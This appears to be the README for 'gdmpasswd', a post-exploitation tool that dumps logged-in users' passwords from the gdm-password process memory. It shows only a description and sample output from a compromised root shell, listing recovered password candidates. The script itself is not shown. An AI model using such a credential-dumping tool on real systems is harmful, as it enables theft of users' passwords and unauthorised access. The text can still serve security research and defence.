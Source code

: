 # gdmpasswd
Dumps the currently logged on users' password from gdm-password process memory.

```
root@pwnd:~# ./gdmpasswd.sh 
          __                                               __ 
.-----.--|  |.--------.-----.---.-.-----.-----.--.--.--.--|  |
|  _  |  _  ||        |  _  |  _  |__ --|__ --|  |  |  |  _  |
|___  |_____||__|__|__|   __|___._|_____|_____|________|_____|
|_____|               |__|                                    

USERNAME: root 

PASSWORD CANDIDATES:

close
counts.User'
r00tP@ss!89
files
group
hosts
myhostname
netgroup
networks
passwd
protocols
publickey
services
shadow

root@pwnd:~# 

```
